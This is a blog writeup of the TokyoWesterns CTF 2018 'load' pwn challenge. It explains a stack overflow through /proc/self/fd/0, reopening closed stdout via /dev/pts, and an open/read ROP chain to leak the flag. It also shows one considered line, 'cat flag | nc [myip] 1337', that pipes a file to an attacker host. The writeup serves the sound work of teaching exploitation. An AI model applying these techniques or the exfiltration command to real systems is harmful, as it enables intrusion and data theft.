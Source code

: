 ```yaml
---
layout: post
title: "TokyoWesterns CTF 2018 - load (pwn)"
description: ""
date: 2018-09-03
tags: [ctf, pwn]
comments: true
---
```


> host : pwn1.chal.ctf.westerns.tokyo
>
> port : 34835 (Solves: 49, 208 pts)
>
> [load][load] [+exploit.py][exploit]

This challenge runs a binary that is a **Load file Service**, which allows you to read any file on the system, which it will open and write the file contents to a buffer on the stack. The `filename` that we enter is limited to 128-bytes and is placed in a variable in the bss section, we should take note of that. From this description, it is quite obvious that we are going for a stack-based buffer overflow which will allow us to control the saved RIP on the stack, as long as the file read is larger than the buffer size, it will overflow. 

## Controlling RIP

This brings the question of what file to read, since we do not control any files on the challenge server, and even though we could overflow it by reading some arbitrary big file in the system, if we do not control its contents, we are unable to significantly control execution flow of the program to get a flag. The solution is to read a file we CAN control, `/proc/self/fd/0`. This file is a symbolic link created for each process which allows us to read data from the terminal, fd 0 refers to STDIN while fd 1 would be STDOUT, thus if we read from fd 0, we can send a ROP chain to overflow the buffer.

```
Load file Service
Input file name: /proc/self/fd/0
Input offset: 0
Input size: 100
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Load file complete!
Segmentation fault (core dumped) <= YAY
```


## No Leaks?

So now that we are able to control execution flow, I notice the next issue. Right before main returns, there is a call to `close_fd()`, which closes the file descriptors for STDIN, STDOUT and STDERR. What this means is that we will no longer be able to read data from the user or print data to the screen.

{% highlight C %}
int close_fd()
{
  close(0);
  close(1);
  close(2);
  return;
}
{% endhighlight %}

This is an issue as generally, we assume that 99% of CTF pwn challenges have ASLR enabled, thus the libc will be mapped to a random address space for each execution of the binary. This either forces us to leak the libc address so we can call functions that are not in the PLT (PLT functions have a static addresses) or only use functions present in the PLT. The PLT actually contains `open`, `read`, and `puts`, so we actually do not need to leak the libc base address to read the flag, however we still need STDOUT to be open to see the flag on our side. So I thought of two solutions.

1) If we can find the appropriate gadgets, maybe we could run `execve` with syscalls and run a command like `cat flag | nc [myip] 1337` which would give us the flag. But I was unable to find any syscall gadgets, and this would be a very difficult operation to do with only syscalls

2) Find some way to reopen STDOUT

I settled with the second way as it's probably easier.

## Reopening STDOUT

After a file descriptor is closed, the file descriptor will be "free'd" and the next call to the `open` syscall would return the lowest free file descriptor possible. Since `close_fd()` closed file descriptors `0, 1, 2`, our next three calls to `open` would return these file descriptors. If you run `strace` on a program calling `puts`, you will notice that a puts call for example `puts("Load file complete!")` is actually just `write(1, "Load file complete!", 19)     = 19`. This is useful as now we know that the second file we open to will be written to by the puts call. If we can somehow read from that file from our remote connection, we can see the flag. After knowing this I did some googling and tried random files like `/dev/tty` after seeing shellcodes like [this][shellcode], but tty didn't work, I think it's because we aren't in a terminal. Trying to call open on `/proc/self/fd/1` wouldn't work as after the fd is closed, so is the file. After messing around, I realised that `/proc/self/fd/1` is just a symlink to another file `/dev/pts/?`. I tried opening the correct `/dev/pts/?` twice so that fd 1 == `/dev/pts/?` with a simple puts ROP chain and it worked!

## Finishing up

Now that we know we can leak, we just have to write a simple ROP chain to open the flag file and read it back to ourselves. The ROP chain I used did the following `open("/dev/pts/?") * 2 => open("/home/load/flag.txt") => read(3(flag), 0x601000(random bss addr), 10000)`, using our `filename` buffer in the bss to store filenames for the three files, since it has a static address. And we get the flag! Just a note, `/dev/pts/?` has question mark as it seems that the pts our connection uses keeps changing, but changing it randomly between 0-3 seemed to work reliably enough for my purposes. Also, there weren't easy gadgets for a `pop rdx` instruction for the third argument in the `read` call, so I had to use `csu_init` which helps to set my rdx register.

`TWCTF{pr0cf5_15_h1ghly_fl3x1bl3}`

[load]:{{site.baseurl}}/ctf/TokyoWesterns18/load/load
[exploit]:{{site.baseurl}}/ctf/TokyoWesterns18/load/exploit.py
[shellcode]: http://shell-storm.org/shellcode/files/shellcode-219.php